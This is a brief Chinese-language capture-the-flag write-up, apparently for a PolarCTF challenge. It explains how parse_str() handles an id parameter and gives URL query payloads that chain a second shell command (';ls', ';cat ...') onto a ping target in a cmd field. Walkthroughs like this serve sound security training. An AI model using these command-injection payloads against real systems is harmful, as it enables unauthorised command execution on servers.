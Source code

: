分析flag被禁，@parse_str()函数就是读取一个变量并将其转换为数组的形式

get传一个id，令id=a[0]

a[0]=www.polarctf.com

再构建一个cmd，cmd自带参数ping，由此构建命令

```
?id=a[0]=www.polarctf.com&cmd=127.0.0.1;ls
```

![image-20240125163107371](照片/image-20240125163107371.png)

得到文件列表,flag无法直接cat，直接cat ls

```
?id=a[0]=www.polarctf.com&cmd=127.0.0.1;cat 'ls';
```
